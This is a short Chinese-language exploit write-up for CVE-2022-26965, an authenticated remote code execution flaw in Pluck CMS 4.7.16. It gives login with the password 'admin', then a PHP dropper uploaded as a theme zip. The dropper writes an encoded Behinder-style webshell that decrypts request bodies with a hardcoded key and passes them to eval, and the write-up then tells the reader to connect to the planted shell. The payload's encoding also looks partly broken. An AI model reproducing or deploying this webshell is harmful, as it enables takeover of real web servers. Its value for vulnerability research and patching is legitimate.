




# CVE-2022-26965（Pluck-CMS-Pluck-4.7.16 后台RCE）

<div style="text-align: right;">

date: "2023-01-10"

</div>

## 漏洞描述
- Pluck-CMS-Pluck-4.7.16 后台RCE

## 漏洞原理

- 暂无

## 漏洞复现



点击admin，跳转到登陆后台，直接输入admin进入到后台



### 三、文件上传

选项-选择主体-安装主题-选择文件，在本地新建一个php文件，内容如下

```
<?php

file_put_contents('chanyue.php',base64_decode(JTNDJTNGcGhwJTBBQGVycm9yX3JlcG9ydGluZyUyODAlMjklM0IlMEElMDlmdW5jdGlvbiUyMGRlY3J5cHQlMjglMjRkYXRhJTI5JTBBJTdCJTBBJTIwJTIwJTIwJTIwJTI0a2V5JTNEJTIyZTQ1ZTMyOWZlYjVkOTI1YiUyMiUzQiUyMCUwQSUyMCUyMCUyMCUyMCUyNGJzJTNEJTIyYmFzZTY0XyUyMi4lMjJkZWNvZGUlMjIlM0IlMEElMDklMjRhZnRlciUzRCUyNGJzJTI4JTI0ZGF0YS4lMjIlMjIlMjklM0IlMEElMDlmb3IlMjglMjRpJTNEMCUzQiUyNGklM0NzdHJsZW4lMjglMjRhZnRlciUyOSUzQiUyNGkrKyUyOSUyMCU3QiUwQSUyMCUyMCUyMCUyMCUwOSUyNGFmdGVyJTVCJTI0aSU1RCUyMCUzRCUyMCUyNGFmdGVyJTVCJTI0aSU1RCU1RSUyNGtleSU1QiUyNGkrMSUyNjE1JTVEJTNCJTIwJTBBJTIwJTIwJTIwJTIwJTdEJTBBJTIwJTIwJTIwJTIwcmV0dXJuJTIwJTI0YWZ0ZXIlM0IlMEElN0QlMEElMDklMjRwb3N0JTNERGVjcnlwdCUyOGZpbGVfZ2V0X2NvbnRlbnRzJTI4JTIycGhwJTNBLy9pbnB1dCUyMiUyOSUyOSUzQiUwQSUyMCUyMCUyMCUyMGV2YWwlMjglMjRwb3N0JTI5JTNCJTBBJTNGJTNF'));

?>
```

注：括号内为base64加密的php代码

将文件保存，直接压缩成zip包，到上传点上传，上传完以后会显示主体已安装



### 四、冰蝎连接

连接地址：`http://example.com/data/themes/chanyue/chanyue.php`


